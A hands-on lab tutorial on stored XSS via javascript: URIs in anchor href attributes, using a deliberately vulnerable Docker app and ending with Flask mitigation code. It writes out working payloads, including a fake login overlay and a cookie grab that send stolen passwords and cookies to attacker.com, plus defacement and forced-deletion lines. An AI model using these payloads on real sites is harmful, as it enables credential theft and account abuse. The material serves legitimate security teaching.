










# Stored XSS into anchor href attribute with double quotes HTML-encoded

Cross-Site Scripting (XSS) is a critical security vulnerability in web applications that allows attackers to inject and execute malicious scripts in a user's browser. When the vulnerability exists in anchor (`<a>`) href attributes, it presents unique challenges and attack vectors that developers need to understand.

## **Objective**

- Running the vulnerable `Link Sharing System` in `Docker`.
- Performing a `Stored XSS` attack by injecting JavaScript into anchor href attributes.
- Understanding how JavaScript URI schemes can be used to execute malicious code.
- Identifying ways to detect and mitigate this specific type of XSS vulnerability.
- Demonstrating security best practices to prevent XSS attacks in href attributes.

## **Understanding Anchor Href Attribute XSS**

This specific type of XSS occurs when an application stores user input that is later placed into an anchor (`<a>`) tag's href attribute without proper sanitization. While many applications correctly HTML-encode double quotes (preventing breaking out of the attribute), they often fail to validate the URI scheme, allowing attackers to use `javascript:` URIs to execute arbitrary code.

For example, instead of a normal link like:
```html
<a href="https://example.com">Safe Link</a>
```

An attacker can inject:
```html
<a href="javascript:alert('XSS Attack')">Malicious Link</a>
```

When a user clicks this link, the JavaScript code executes in their browser context.

## **Hands-on with Stored XSS in Href Attributes**

1. **Pull the Docker Image**

   ```bash
   docker pull yeasin97/stored-lab2:latest
   ```

2. **Run the Docker Container**

   ```bash
   docker run -d -p 5001:5001 yeasin97/stored-lab2:latest
   ```
3. **Create a Load Balancer in Poridhi's Cloud**

   Find the `eth0` IP address with `ifconfig` command, then create a Load Balancer with that IP address and port `5001`.

   
   
4. **Access the Web Application**

   Access the web application through the URL provided by the load balancer.
   
   

   
   
### **Exploring the Link Sharing Application**

This web application allows users to share links by entering a Link Text and URL. 



Links are stored in the database and displayed to all visitors, making it vulnerable to stored XSS if proper sanitization isn't implemented.



Look at the html source how the previous inputs is stored without any sanitation. So, we can exploit it in different ways. 



### **Exploiting the Vulnerability**

The application has a vulnerability where it properly HTML-encodes double quotes in href attributes but fails to validate the URI scheme, allowing JavaScript execution.

To exploit this:

1. Enter a name for your link (e.g., "Click me to XSS attack")
2. In the URL field, enter: `javascript:alert('Stored XSS Attack Successful!')`
3. Click the Submit Link button



Now when any user visits the page and clicks on your malicious link, the JavaScript will execute in their browser context:



### **Inspecting the Vulnerability**

Using browser developer tools, we can see how the malicious code is stored in the anchor tag's href attribute:




You can try other inputs in the link section, for example;

```javascript
javascript:document.body.innerHTML='<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:99999"><h2>Session Expired</h2><form>Username: <input><br>Password: <input type="password" id="p"><br><button type="button" onclick="fetch(\'https://attacker.com/steal?pw=\'+document.getElementById(\'p\').value)">Login</button></form></div>'; void(0)

```





```javascript
javascript:document.body.innerHTML='<h1>Site Hacked</h1>'; void(0)

```




## **Impact of Href Attribute XSS**

This vulnerability allows attackers to:

1. **Execute JavaScript on Click**: Execute arbitrary JavaScript when users click on malicious links
2. **Session Hijacking**: Steal user cookies and session tokens
3. **Phishing Attacks**: Redirect users to fake login pages or display convincing fake dialogs
4. **Data Exfiltration**: Steal sensitive information from the page
5. **Persistence**: Since the attack is stored in the database, it affects all visitors

## **Advanced Exploitation**

Beyond simple alert boxes, attackers can use more sophisticated payloads:

```javascript
javascript:fetch('https://attacker.com/steal?cookie='+document.cookie);
```

Or trigger actions without user awareness:

```javascript
javascript:document.getElementById('delete-account').click();void(0);
```


## **How to Prevent Stored XSS in Href Attributes**

### 1. URL Scheme Validation

**Protection Mechanism:** Restrict allowed URL schemes to safe protocols.

**How it protects:** By only allowing safe schemes like `http://`, `https://`, `mailto:`, etc., you prevent the use of dangerous schemes like `javascript:`.

**Implementation (Python with Flask):**
```python
import re

def is_safe_url(url):
    # Only allow http, https, mailto, tel schemes
    safe_schemes = re.compile(r'^(https?|mailto|tel):', re.IGNORECASE)
    return bool(safe_schemes.match(url))

@app.route('/add_link', methods=['POST'])
def add_link():
    link_text = request.form.get('link_text')
    url = request.form.get('url')
    
    if not is_safe_url(url):
        return "Invalid URL scheme", 400
        
    # Store the link safely...
```

### 2. Content Security Policy (CSP)

**Protection Mechanism:** Implement a strict CSP that blocks inline JavaScript execution.

**Implementation (Python with Flask):**
```python
@app.after_request
def add_security_headers(response):
    response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'self';"
    return response
```

### 3. URL Encoding Functions

**Protection Mechanism:** Use libraries that handle URL validation robustly.

**Implementation (Python):**
```python
from urllib.parse import urlparse

def validate_url(url):
    parsed = urlparse(url)
    if parsed.scheme not in ('http', 'https', 'mailto'):
        return False
    return True
```

### 4. HTML Purification Libraries

**Protection Mechanism:** Use libraries specifically designed to sanitize HTML and URLs.

**Implementation (Python with BeautifulSoup and bleach):**
```python
import bleach

@app.route('/add_link', methods=['POST'])
def add_link():
    link_text = request.form.get('link_text')
    url = request.form.get('url')
    
    # Sanitize URL
    url = bleach.clean(url)
    
    # Additional URL scheme validation
    if not is_safe_url(url):
        return "Invalid URL", 400
        
    # Store sanitized data
```

## **Best Practices for Production**

1. **Defense in Depth**: Implement multiple layers of protection
2. **Safe by Default**: Always validate input and sanitize output
3. **Principle of Least Privilege**: Minimize what users can do to reduce attack surface
4. **Regular Testing**: Use automated tools and manual penetration testing
5. **Stay Updated**: Keep libraries and frameworks updated to benefit from security patches

## **Conclusion**

Stored XSS vulnerabilities in anchor href attributes present unique challenges because they can bypass traditional HTML encoding defenses. By understanding the attack vector and implementing proper URL scheme validation, developers can effectively prevent these attacks in their web applications. Remember that XSS prevention requires a multi-faceted approach that includes input validation, output encoding, and appropriate content security policies.